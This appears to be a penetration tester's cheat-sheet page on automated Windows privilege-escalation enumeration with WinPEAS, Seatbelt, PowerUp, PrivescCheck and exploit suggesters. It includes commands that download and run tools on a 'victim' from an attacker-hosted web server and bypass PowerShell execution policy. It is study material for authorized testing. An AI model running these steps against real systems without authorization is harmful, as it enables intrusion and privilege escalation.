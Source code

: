 # Automated Enumeration

## WinPEAS

{% code title="On the kali" overflow="wrap" lineNumbers="true" %}
```
sudo apt install peass
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```
{% endcode %}

{% code title="On the victim" overflow="wrap" lineNumbers="true" %}
```
PS:> iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> .\winPEASx64.exe > outputfile.exe

```
{% endcode %}

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

## Seatbelt

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS:> iwr -uri http://192.168.45.189/Seatbelt.exe -Outfile Seatbelt.exe
./Seatbelt -group=all
```
{% endcode %}

## JAWS

## PowerUp

PowerUp is a PowerShell script that searches common privilege escalation on the target system. You can run it with the `Invoke-AllChecks` option that will perform all possible checks on the target system or use it to conduct specific checks (e.g. the `Get-UnquotedService` option to only look for potential unquoted service path vulnerabilities).

**Reminder**: To run PowerUp on the target system, you may need to bypass the execution policy restrictions. To achieve this, you can launch PowerShell using the command below.

\


Running PowerUp.ps1 on the Target System

```shell-session
C:\Users\user\Desktop>powershell.exe -nop -exec bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\user\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\user\Desktop> Invoke-AllChecks

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...
```

\


![](<../../../.gitbook/assets/image (5).png>)

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}

[PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1)

```
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended
```

## Windows Exploit Suggester

Update the databases&#x20;

`./windows-exploit-suggester.py --update` &#x20;

To use the script, you will need to run the `systeminfo` command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine.

Once this is done, windows-exploit-suggester.py can be run as follows;

`./windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt`

A newer version of Windows Exploit Suggester is available [here](https://github.com/bitsadmin/wesng). Depending on the version of the target system, using the newer version could be more efficient.

{% embed url="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" %}

**Metasploit**\



If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.
